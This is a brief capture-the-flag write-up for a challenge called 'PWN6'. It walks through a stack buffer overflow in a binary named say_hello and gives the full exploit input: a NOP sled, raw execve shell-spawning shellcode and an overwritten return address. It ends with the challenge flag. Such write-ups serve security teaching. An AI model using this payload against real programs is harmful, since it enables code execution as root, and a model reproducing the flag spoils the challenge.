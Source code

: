 # This writeup if from the GiraffeCTF which was called "PWN6".
## This task was quiet easy as finding where the intruction pointer was overwritten. The instruction pointer was hit at offset
216 bytes.
> ./say_hello $(python -c 'print "\x90"*189')
## After debugging i found where the start of the nopsled was in memory, i quickly looked a shellcode to use which spawns root.
## The shellcode was 27 bytes. I calculated how much i had to cut the nopsled down i had to go by 
doing 216-27 which turned to 189 bytes.
## Now, Nopshell + shellcode + eip and the input looked like this:
> ./say_hello $(python -c 'print "\x90"*189+"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+"\x70\xed\xff\xff\xff\x7f"')
## Executing it allowed me to open a file as root which contained the flag being
> "FLAG{WhoKilledUncleBen?}"
## Thanks for reading.
